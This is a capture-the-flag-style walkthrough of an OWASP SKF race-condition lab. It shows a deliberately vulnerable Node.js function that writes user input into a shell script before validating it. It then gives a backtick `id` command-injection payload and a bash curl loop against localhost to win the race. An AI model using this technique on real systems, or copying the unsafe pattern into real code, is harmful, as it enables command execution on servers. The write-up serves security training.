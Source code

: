 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `boot_validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```javascript
const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '`' backtick.

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh
#!/bin/bash
while true; do

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/4.png)

Congratulations, you won the race for real now!!!!!!!!

## Additional sources

{% embed url="https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
